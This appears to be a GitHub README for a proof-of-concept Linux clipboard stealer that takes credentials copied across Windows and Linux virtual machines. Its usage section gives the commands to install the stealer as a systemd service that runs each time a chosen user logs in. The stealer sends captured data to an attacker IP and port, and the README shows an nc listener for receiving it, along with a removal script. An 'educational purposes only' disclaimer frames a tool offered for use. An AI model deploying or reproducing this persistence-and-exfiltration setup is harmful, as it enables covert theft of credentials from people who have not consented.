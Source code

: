 # linux-clipboard-stealer-poc - EDUCATIONAL PURPOSES ONLY
This is a linux clipboard stealer that takes advantage of shared clipboard between windows and linux virtual machines to steal credentials.
This should only be used during pentests or with permission of the device owner.
# Usage
- `sudo python3 setup.py <user> <path_to_clipboardstealer.py> <path_to_log_file> <attacker_ip> <attacker_port>`
- This sets up the systemd process that runs the clipboardstealer as a certain user every time that user logs in.
- It exfiltrates data to the attacker ip on the specified port; the data can be captured through nc -lvnp \<attacker_port\>.
- `sudo python3 remove.py`
- This removes the systemd process, but, you have to manually clean up the log and stealer file.
